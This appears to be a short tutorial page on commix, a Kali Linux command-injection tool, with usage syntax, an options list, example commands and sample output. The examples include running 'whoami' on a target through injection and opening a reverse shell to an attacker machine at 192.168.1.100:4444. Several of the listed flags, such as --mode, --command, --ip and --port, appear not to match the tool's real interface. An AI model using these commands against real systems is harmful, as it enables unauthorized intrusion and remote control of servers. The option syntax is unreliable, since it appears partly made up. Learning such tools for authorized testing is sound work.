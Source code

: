 **commix (Command Injection Exploiter)**

`commix` is a Kali Linux tool used to detect and exploit command injection flaws. It can be used to automate the process of detecting and exploiting command injection vulnerabilities in web applications.

**Usage**

The basic syntax for using `commix` is:

```
commix --url=<target_url> [options]
```

Some common options include:

- `--url`: Specify the target URL
- `-v/--verbose`: Increase the verbosity of the output
- `-m/--mode`: Set the exploitation mode (e.g., cmd, shell, eval)
- `-d/--data`: Provide POST data for the request
- `-f/--file`: Provide a file containing URLs or parameters to test
- `-o/--output`: Save the results to an output file

**Examples**

1. **Basic Command Injection Test**:
   ```
   commix --url="http://example.com/vuln.php?id=1"
   ```
   This will test the `id` parameter of the `http://example.com/vuln.php` URL for command injection vulnerabilities.

2. **Command Injection Exploitation (Command Execution)**:
   ```
   commix --url="http://example.com/vuln.php?id=1" --mode=cmd --command="whoami"
   ```
   This will attempt to execute the `whoami` command on the target server by exploiting the command injection vulnerability.

3. **Command Injection Exploitation (Reverse Shell)**:
   ```
   commix --url="http://example.com/vuln.php?id=1" --mode=shell --ip=192.168.1.100 --port=4444
   ```
   This will attempt to establish a reverse shell connection to the attacker's machine at `192.168.1.100:4444` by exploiting the command injection vulnerability.

**Example Output**

The output of a `commix` scan might look something like this:

```
[+] Target URL: http://example.com/vuln.php?id=1
[+] Testing parameter: 'id'
[+] Detected a possible command injection vulnerability.
[+] Payload: http://example.com/vuln.php?id=1%3b%20whoami
[+] Command Output: apache

[+] Exploitation results:
  [*] Command: whoami
  [+] apache
```
